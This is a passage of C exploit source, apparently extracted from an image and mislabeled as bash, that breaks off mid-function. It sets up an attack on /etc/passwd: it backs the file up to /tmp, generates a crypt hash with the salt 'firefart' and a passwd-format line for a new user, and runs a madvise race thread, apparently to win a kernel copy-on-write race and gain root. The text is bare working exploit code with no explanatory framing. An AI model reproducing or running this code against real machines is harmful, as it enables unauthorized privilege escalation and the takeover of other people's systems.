 ```bash
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <stdlib.h>
#include <unistd.h>
#include <crypt.h>

const char *filename = "/etc/passwd";
const char *backup_filename = "/tmp/passwd.bak";
const char *salt = "firefart";

int f;
void *map;
pid_t pid;
pthread_t pth;
struct stat st;

struct Userinfo {
   char *username;
   char *hash;
   int user_id;
   int group_id;
   char *info;
   char *home_dir;
   char *shell;
};

char *generate_password_hash(char *plaintext_pw) {
  return crypt(plaintext_pw, salt);
}

char *generate_passwd_line(struct Userinfo u) {
  const char *format = "%s:%s:%d:%d:%s:%s:%s\n";
  int size = snprintf(NULL, 0, format, u.username, u.hash,
    u.user_id, u.group_id, u.info, u.home_dir, u.shell);
  char *ret = malloc(size + 1);
  sprintf(ret, format, u.username, u.hash, u.user_id,
    u.group_id, u.info, u.home_dir, u.shell);
  return ret;
}

void *madviseThread(void *arg) {
  int i, c = 0;
  for(i = 0; i < 200000000; i++) {
    c += madvise(map, 100, MADV_DONTNEED);
  }
  printf("madvise %d\n\n", c);
}

int copy_file(const char *from, const char *to) {
  // check if target file already exists
  if(access(to, F_OK) != -1) {
    printf("File %s already exists! Please delete it and run again\n",
      to);
    return -1;
  }

  char ch;
  FILE *source, *target;

  source = fopen(from, "r");
  if(source == NULL) {
```